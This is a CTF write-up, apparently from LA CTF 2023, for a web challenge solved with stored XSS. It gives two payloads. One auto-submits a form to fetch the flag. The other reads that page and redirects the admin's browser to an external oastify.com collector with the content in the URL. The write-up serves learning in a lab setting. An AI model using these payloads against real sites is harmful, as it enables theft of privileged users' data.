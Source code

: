 ```js
window.open("https://URL") ----> open in new tab
window.location.href="https://URL" ----> open in current tab
window.location.replace("https://URL") ----> open in current tab
window.location.assign("https://URL") ----> open in current tab
document.location = "https://URL" ----> open in current tab
```

We going to use 2 files

1. Stored an HTML that will have a form with post method and retrieve the flag
2. Stored a javascript that will get the value of the flag in file `1` and send/redirect it to the attacker URL.

**FILE 1**

```html
<!-- https://california-state-police.lac.tf/report/3f107f9c-4ffe-4fb7-a696-1175012f0d60 -->

<form id="flag-form" action="/flag" method="post">
  <button type="submit">Click Me</button>
</form>

<script>
  document.getElementById("flag-form").submit();
</script>
```

**FILE 2**

```js
<!-- https://california-state-police.lac.tf/report/27fadbd1-a53e-4cb0-b102-40e60d049a59 -->

<script>
function redirect() {
    let webs = window.open("https://california-state-police.lac.tf/report/3f107f9c-4ffe-4fb7-a696-1175012f0d60", "_blank");
    setTimeout(function() {
        let report = webs.document.documentElement.innerHTML;
        window.location ="https://uhf0hn49b3o3wmk345uavj0n0e65uvik.oastify.com/?flag="+encodeURIComponent(report);
    }, 200);
}
redirect()
</script>
```

Sending the URL of `FILE 2` to admin will get us the flag.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/4_lactf2023/web6.png)

Flag : `lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}`

**References**

1. ![https://www.youtube.com/watch?v=1AmbQU_p5TU](https://www.youtube.com/watch?v=1AmbQU_p5TU)


